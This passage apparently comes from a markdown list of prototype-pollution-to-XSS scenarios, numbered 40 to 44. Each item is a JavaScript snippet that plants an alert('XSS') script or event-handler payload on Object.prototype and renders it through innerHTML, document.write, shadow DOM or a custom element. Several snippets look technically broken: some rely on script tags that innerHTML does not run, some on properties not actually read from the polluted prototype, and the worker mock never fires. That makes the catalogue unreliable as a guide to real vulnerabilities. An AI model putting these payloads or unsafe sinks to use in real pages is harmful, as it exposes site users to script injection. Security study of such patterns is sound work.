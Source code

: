 
### 40. Polluted Title Attribute
**Scenario**: Polluted title rendered unsafely with event.
```javascript
Object.prototype.title = '" onmouseover="alert(\'XSS\')';
const elem = {};
document.body.innerHTML = `<div title="${elem.title}">Hover</div>`; // XSS on hover
```

---

### 41. Polluted Worker Message
**Scenario**: Polluted worker message rendered unsafely.
```javascript
Object.prototype.data = '<script>alert("XSS")</script>';
const worker = { postMessage: () => ({ data: {} }) };
worker.onmessage = (e) => document.write(e.data.data);
worker.postMessage(); // XSS
```

---

### 42. Polluted Custom Element
**Scenario**: Polluted custom element property triggers XSS.
```javascript
Object.prototype.innerHTML = '<script>alert("XSS")</script>';
customElements.define('x-test', class extends HTMLElement {});
const el = document.createElement('x-test');
el.innerHTML = el.innerHTML || ''; // XSS
```

---

### 43. Polluted Shadow DOM
**Scenario**: Polluted shadow content executes script.
```javascript
Object.prototype.shadowContent = '<script>alert("XSS")</script>';
const obj = {};
const shadow = document.body.attachShadow({ mode: 'open' });
shadow.innerHTML = obj.shadowContent; // XSS
```

---

### 44. Polluted Mutation Observer
**Scenario**: Polluted observer callback injects script.
```javascript
Object.prototype.callback = () => document.write('<script>alert("XSS")</script>');
const observer = new MutationObserver(() => {});
observer.observe(document.body, { attributes: true });
document.body.setAttribute('x', observer.callback()); // XSS
```

---